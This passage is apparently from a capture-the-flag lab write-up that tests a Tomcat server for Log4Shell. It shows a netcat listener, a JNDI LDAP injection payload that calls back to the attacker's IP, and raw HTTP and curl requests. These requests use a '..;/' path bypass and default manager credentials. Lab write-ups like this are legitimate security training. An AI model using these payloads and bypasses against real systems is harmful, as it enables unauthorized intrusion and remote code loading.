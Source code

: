 ```bash
FAIL - Deploy Upload Failed, Exception: [org.apache.tomcat.util.http.fileupload.impl.FileSizeLimitExceededException: The field deployWar exceeds its maximum permitted size of 1 bytes.]
```

## Log4j - Log4Shell

The idea here is to try a log4j jndi payload here and see if we get a connection back on ldap port TCP 389.

```bash
$ nc -nlvp 389
```

```bash
${jndi:ldap://10.10.14.3/file}
```

```bash
POST /kali/..;/manager/html/expire?path=/UHC%7BBadWayToBlockTomcat%7D HTTP/1.1
Host: 10.10.11.138
Content-Type: application/x-www-form-urlencoded
Authorization: Basic dG9tY2F0OnRvbWNhdA==

idle=${jndi:ldap://10.10.14.3/file}
```

![Log4j Burp Test](images/log4j_burp_test.png)

![Log4j NC Test](images/log4j_nc_test.png)

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: 10.10.11.138' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Authorization: Basic dG9tY2F0OnRvbWNhdA==' \
    --data-binary $'idle=${jndi:ldap://10.10.14.3/file}' \
    $'http://10.10.11.138/kali/..;/manager/html/expire?path=/UHC%7BBadWayToBlockTomcat%7D'

```
